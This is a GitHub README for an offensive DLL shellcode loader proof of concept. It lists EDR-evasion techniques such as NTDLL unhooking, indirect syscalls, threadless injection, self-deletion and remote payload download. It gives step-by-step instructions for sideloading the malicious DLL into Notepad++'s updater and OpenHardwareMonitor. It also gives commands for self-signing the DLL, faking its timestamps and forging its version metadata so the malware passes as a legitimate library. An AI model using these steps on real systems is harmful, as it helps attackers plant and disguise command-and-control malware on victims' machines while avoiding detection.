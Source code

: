 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Follow @JimKwik_X](https://img.shields.io/twitter/follow/JimKwik_X?style=social)](https://x.com/JimKwik_X)

# A DLL Shellcode Loader POC

![image](Images/loader.png)

# Techniques used:
- NTDLL.dll unhooking
- Indirect Syscalls
- Rop Gadgets 
- Anti analysis by self deleting after execution
- [Threadless injection](https://github.com/CCob/ThreadlessInject) with  with HWBP
- Remote payload download over HTTPs with a customed header for authtication
- VEH unhooking
- DLL sideload
- Payload AES encryption on the fly 

Compile in Visual Studio -> `x64` -> `Release`

# Usage:

# **Run by Rundll32.exe**

Add `#Define badger` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L199)

Run as:

```js
rundll32.exe Dllloader.dll,run
```

# **Sideload [Notepad++](https://notepad-plus-plus.org/)**

1. Add `#Define NOTEPAD` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L212)

2. Rename `Dllloader.dll` to `libcurl.dll` and place it in [updater](./updater/) folder

3. Run `updater.exe` in the [updater](./updater/) folder to sideload the dll

# **Sideload [OpenHardwareMonitor](https://openhardwaremonitor.org/)**

1. Add `#Define MONITOR` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L169)


2. Rename `Dllloader.dll` to `DWrite.dll` and place it in [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder

3. Run `OpenHardwareMonitor.exe` in the [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder to sideload the dll



# 💡Tips:

- Use the [signtool](./signtool/) to sign a ceritifcate on the DLL some EDRs flag unsigned dlls straightaway such as Elastic and change the date similar to the orginal dll

![elastic](./Images/Elastic.png)

- **Signtool Powershell commands**

```js
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365
openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx
signtool sign /f sign.pfx /p password /t http://timestamp.digicert.com /fd sha256 DWrite.dll

```
- **Changing dates**

```js
$x = "DWrite.dll"
$(Get-Item $x).creationtime=$(Get-Date "03/3/2024")
$(Get-Item $x).lastwritetime=$(Get-Date "03/3/2022")
$(Get-Item $x).lastaccesstime=$(Get-Date "07/23/2024")
```

- **Add metadata to the DLL and do not leave it blank


Add a `Resource.rc` file in Visual Studio and the following metadata for `DWrite.dll` so it looks like this

![DWrite](./Images/Dwritre.png)

```js
1 VERSIONINFO
 FILEVERSION 9.6.0.0 // File version separated by commas
 PRODUCTVERSION 0.9.6.0
 FILEFLAGSMASK 0x0L
#ifdef _DEBUG
 FILEFLAGS 0x1L
#else
 FILEFLAGS 0x0L
#endif
 FILEOS 0x0L
 FILETYPE 0x0L
 FILESUBTYPE 0x0L
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN 
            // Modify the values below
            VALUE "CompanyName", "(C) 2009-2020 Michael Möller"
            VALUE "FileDescription", "Open Hardware Monitor Library"
            VALUE "InternalName", "Chrome"
            VALUE "LegalCopyright", "(C) 2009-2020 Michael Möller"
            VALUE "OriginalFilename", "OpenHardwareMonitorLib.dll"
            VALUE "ProductName", "Open Hardware Monitor Library"
            VALUE "ProductVersion", "0.9.6"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```


# ⚠️ Disclaimer: 
Always tweak the code during an enagament, this is just a POC but its not good to add everything in one loader. Its better to use stagers to prevent the main C2 shellcode gets burnt. 

# Video Demo

Click [here](https://drive.google.com/file/d/1LenFbhhj8n7esZXn6NXPdZ-pDy8bTdjx/view) to see the full demo.
